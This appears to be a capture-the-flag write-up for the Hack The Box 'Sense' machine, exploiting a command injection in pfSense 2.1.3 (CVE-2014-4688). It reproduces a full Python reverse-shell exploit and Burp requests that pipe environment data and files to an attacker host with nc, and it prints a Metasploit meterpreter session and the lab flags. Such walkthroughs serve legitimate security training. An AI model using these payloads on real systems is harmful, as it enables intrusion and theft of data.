




# Sense
## Enumeration
### Nmap
```bash
sudo nmap -sC -sV -T4 -oN scan.txt 10.129.147.216
```
Nmap scan shows two ports open `80` and `443` which means we have a webserver. 
#### output
```bash hl_lines="7 9"
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-08 12:25 EST
Nmap scan report for 10.129.147.216
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.129.147.216/
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
|_http-server-header: lighttpd/1.4.35

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.86 seconds
```
when visiting the site at https:<IP> we get a default login for `pfsense`

Googled the default credentials for `pfsense` is `admin` `pfsense` but we are not able to login with the defaul credentials. let's keep going.

### Gobuster
Lets run dirbuster to find files and subdirectories.
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.147.216 -k -x txt
```

### Result
Gobuster finds two files with status code `200` `system-users.txt` and `changelog.txt` that we can access and one of them has the username and a hint for the default password `pfsense`. we logged into the pfsense and we can see the version of psfsene `2.1.3 RELEASE` 


Let's google if there is any vulnerability for it on the exploitDB.
There's a CVE for this specefic version. https://www.exploit-db.com/exploits/43560


```py hl_lines="3"
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

# pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# This script will return a reverse shell on specified listener address and port.
# Ensure you have started a listener to catch the shell before running!

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```
## Exploitation
### Manual Exploitation
We going to use the vulnerability `https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/` to do a command injection via burbsuit. 
we can see that the vulnerability is in the `Status->RRD Graph` and it will open a page open the image in the new page. we can remove the rest of the text from the url and only leave with 
`https://10.129.147.216/status_rrd_graph_img.php?database
`
we can add `queues` to the end as it's mentioned on teh link above. and open `bubsuite` and `intercept on`. and send to `reapeater`.

```bash hl_lines="1"
GET /status_rrd_graph_img.php?database=queues;env|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

You can play with the link but we can inject commands from here. I tried `whoami` and while listing on my attacker machine I get a `root` tried a few more commands. i did tri to use the `/` but its a bad character so we have to find a way to use the `/` to navigate to other directories. I used the `env` and got a list of the variable. 

```bash
➜  Sense-10-129-147-216 nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.147.216] 13257
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd
```
We can use the `HOME` as it will give us a `/` to navigate through the files and directories.
I start a listener on the kali terminal and save the output to a `filesystems.txt`

```bash
nc -lnvp 90002 > filesystems.txt
```
then I change the exploit on the burbsuit repeater.

```bash hl_lines="1"
GET /status_rrd_graph_img.php?database=queues;find+${HOME}|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```


Now we can cat the file we see almost all the sytemfiles for `pfsense`.
We can `cat` the `user.txt` and `root.txt`.

## User.txt

```bash
GET /status_rrd_graph_img.php?database=queues;cat+${HOME}home${HOME}rohit${HOME}user.txt|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```


## Root.txt
```bash
GET /status_rrd_graph_img.php?database=queues;cat+${HOME}root${HOME}root.txt|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```


### Lazy Easy Way
for this one we use `metasploit`
```bash
msf6 exploit(unix/http/pfsense_graph_injection_exec) > options

Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.129.147.216   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  rohit            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lhost tun0
lhost => 10.10.16.10
msf6 exploit(unix/http/pfsense_graph_injection_exec) > exploit
[-] Handler failed to bind to 10.10.16.10:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:4444).
[*] Exploit completed, but no session was created.
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set lport 5555
lport => 5555
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run
[*] Started reverse TCP handler on 10.10.16.10:5555 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (40004 bytes) to 10.129.147.216
[+] Deleted vQJUb
[*] Meterpreter session 1 opened (10.10.16.10:5555 -> 10.129.147.216:13036) at 2025-02-08 15:24:10 -0500
```
This will give use root access so we can access both `user` and `root` flags.
## User and Root Flags
```bash
meterpreter > cd /home/rohit
meterpreter > cat user.txt
8721327cc232073b40d27d9c17e7348b
meterpreter > cd /root/
meterpreter > cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
meterpreter > 
```
